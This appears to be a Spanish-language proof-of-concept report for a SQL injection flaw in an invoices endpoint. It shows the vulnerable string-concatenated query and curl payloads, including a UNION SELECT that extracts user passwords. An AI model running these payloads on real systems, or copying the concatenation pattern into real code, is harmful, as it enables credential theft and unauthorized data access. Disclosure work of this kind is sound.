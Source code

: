 # Prueba de Concepto - Inyección SQL

## Vulnerabilidad encontrada
El endpoint `/invoices` tiene una vulnerabilidad de inyección SQL en el parámetro `status` y `operator`.

**Archivo vulnerable:** `services/backend/src/services/invoiceService.ts:19`
```typescript
if (status) q = q.andWhereRaw(" status "+ operator + " '"+ status +"'");
```

## Cómo explotar

### Paso 1: Obtener token de autenticación
```bash
curl -X POST http://localhost:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username": "test", "password": "password"}'
```

### Paso 2: Probar inyección SQL básica
```bash
curl -X GET "http://localhost:5000/invoices?status=paid%27%20OR%20%271%27%3D%271&operator==" \
  -H "Authorization: Bearer TU_TOKEN_AQUI"
```

### Paso 3: Intentar extraer datos de otras tablas
```bash
curl -X GET "http://localhost:5000/invoices?status=paid%27%20UNION%20SELECT%20id,%20username,%20email,%20password,%20id%20FROM%20users--&operator==" \
  -H "Authorization: Bearer TU_TOKEN_AQUI"
```

## Resultado esperado
- La consulta SQL se ejecuta con el payload inyectado
- Se pueden extraer datos de otras tablas de la base de datos
- Los errores revelan información sobre la estructura de la base de datos

## Impacto
- Acceso no autorizado a datos sensibles
- Extracción de credenciales de usuarios
- Bypass de controles de acceso
- Posible escalación de privilegios
